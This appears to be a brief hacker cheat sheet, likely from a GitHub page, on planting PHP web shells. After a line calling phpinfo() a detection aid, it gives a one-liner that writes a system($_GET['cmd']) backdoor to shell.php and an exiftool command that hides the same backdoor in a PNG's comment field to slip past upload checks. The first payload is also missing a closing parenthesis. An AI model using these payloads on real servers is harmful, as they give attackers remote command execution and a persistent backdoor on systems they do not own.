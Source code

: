 remember that :
```
<?php phpinfo(); ?>
```
can be used for detection !

####################################


php easy backdoor
```
echo '<?php system($_GET["cmd"];?>' > shell.php
```
inject php backdoor png (not restricted to php as i know)
```
exiftool -comment='<?php system($_GET["cmd"]);?>' sample2.png
```



